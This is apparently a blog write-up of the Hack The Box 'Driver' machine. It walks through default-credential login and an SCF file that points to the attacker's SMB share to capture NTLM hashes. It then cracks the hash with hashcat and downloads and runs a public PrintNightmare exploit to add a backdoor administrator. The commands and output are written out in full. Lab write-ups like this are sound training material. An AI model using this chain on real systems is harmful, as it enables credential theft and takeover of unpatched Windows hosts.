 ```yaml
---
layout: post
title: Hack The Box - Driver
disass:
  - url: /assets/images/htb-driver/driver-1.png
    image_path: /assets/images/htb-driver/driver-1.png
    title: description
  - url: /assets/images/htb-driver/driver--2.png
    image_path: /assets/images/htb-driver/driver--2.png
    title: other
categories:
  - hackthebox
slug: htb-driver
tags:
  - cve
  - windows
  - smb
  - printnightmare
---
```

## Challenge description

[https://app.hackthebox.com/machines/Driver](https://app.hackthebox.com/machines/Driver)

This VM is an easy Windows machine

## Reconnaissance / Enumeration

### Port scanning and service identification

```
$ rustscan -a $ip -r 1,65535 -- -A -sC

PORT     STATE SERVICE      REASON  VERSION
80/tcp   open  http         syn-ack Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        syn-ack Microsoft Windows RPC
445/tcp  open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-01-17T02:16:50
|_  start_date: 2022-01-16T20:40:33
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 25778/tcp): CLEAN (Timeout)
|   Check 2 (port 18115/tcp): CLEAN (Timeout)
|   Check 3 (port 26928/udp): CLEAN (Timeout)
|   Check 4 (port 15033/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h59m58s, deviation: 0s, median: 6h59m58s
```

### SMB Enumeration

All tools I used reported no open share

### Web Enumeration

Browsing to http://driver.htb gets us to a basic authentication login prompt. After trying a couple usual default password, I manage to log in with admin/admin.

After logging in, we get to what looks like a printer admin page.

On the "Firmware Updates" tab, we can upload a file and the page says :

> Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.

It's a pretty clear indication that "someone" or "something" will check the file we upload.

After trying some upload tricks, well, no tricks are needed. There are no restriction what so ever.

## Exploitation && Foothold

Let's read this again:

> Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.

It says that our uploaded file will be placed on their file share which implies that someone will browse the share.

Let's do a SCF file attack

Per [Pentestlab.blog](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/):

> _However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share._

> _When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key. Responder will capture the NTLMv2 hash._

```
$ cat << EOF > exploit.scf       
[Shell]
Command=2
IconFile=\\10.10.14.74\share\exploit.ico
[Taskbar]
Command=ToggleDesktop
EOF
```

We can now upload our exploit using the firmware update page and wait for responder to capture hashes:

```
$ sudo responder -w --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[...]

[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:90915e30a4d61b55:EFD5982FC730F2132B289A758EF1AB26:010100000000000017D7481F870BD801DADD4A94693D22FF00000000020000000000000000000000
[...]
```

Now, let's crack it and use the password to log on the target:

```
$ hashcat -a 0 -m 5600 hashes /opt/wordlists/rockyou.txt 
hashcat (v6.2.5) starting

[...]
TONY::DRIVER:a4a1daba2e76ad05:597b6b92e2114645d6f9cf39f3a315ff:01010000000000007212b4fe870bd8011aa3e96919e9f60000000000020000000000000000000000:liltony
[...]

$ evil-winrm -i $ip -u tony -p liltony -s /tmp/driver

*Evil-WinRM* PS C:\Users\tony\Documents> more c:\users\tony\desktop\user.txt
(redacted)
```

## Privilege Escalation

To escalate our privileges to administrator, we'll be exploiting a recently discovered vulnerability affecting the Windows print spooler.

First, download the [exploit](https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1) and open a winrm session using Evil-Winrm using the -s option to load the folder containing the exploit.

The exploit script will allow us to create a new admin local user.

```
$ wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1 -O /tmp/driver/CVE-2021-1675.ps1

2022-01-17 08:55:58 (7.46 MB/s) - ‘CVE-2021-1675.ps1’ saved [178561/178561]

$ evil-winrm -i $ip -u tony -p liltony -s /tmp/driver

*Evil-WinRM* PS C:\Users\tony\Documents>
```

When Evil-Winrm is opened with the -s (--scripts) option, all the scripts inside the folder becomes directly accessible within the winrm session. Let's load and run the exploit to create our backdoor user.

```
*Evil-WinRM* PS C:\Users\tony\Documents> CVE-2021-1675.ps1
*Evil-WinRM* PS C:\Users\tony\Documents> invoke-nightmare -newuser h3x -newpass h3xp4ss!
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user h3x as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll

*Evil-WinRM* PS C:\Users\tony\Documents> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
h3x
The command completed successfully.

*Evil-WinRM* PS C:\Users\tony\Documents> exit
```

Now let's use our new user to get admin privileges.

```
$ evil-winrm -i $ip -u h3x -p h3xp4ss!                         

Evil-WinRM shell v3.3

*Evil-WinRM* PS C:\Users\h3x\Documents> more c:\users\administrator\desktop\root.txt
(redacted)
```

Thanks for reading <3

h3x

